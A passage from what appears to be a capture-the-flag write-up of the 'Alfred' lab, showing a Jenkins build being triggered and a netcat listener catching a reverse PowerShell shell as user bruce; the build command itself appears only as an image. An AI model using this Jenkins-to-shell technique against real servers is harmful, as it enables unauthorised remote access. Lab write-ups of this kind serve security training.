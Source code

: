 ![CommandConfigure](/assets/img/posts/alfred/command.png)

We save the configuration and on the page of the project, we can click on the "Build Now" voice.

![Build Now](/assets/img/posts/alfred/build_now.png)


After a brief time, we can return on our listener and we have a low-privilege shell:
```
rlwrap nc -nlvp 5555
listening on [any] 5555 ...
connect to [10.8.80.159] from (UNKNOWN) [10.10.243.42] 49412
Windows PowerShell running as user bruce on ALFRED
Copyright (C) 2015 Microsoft Corporation. All rights reserved.

PS C:\Program Files (x86)\Jenkins\workspace\project>whoami
alfred\bruce
```
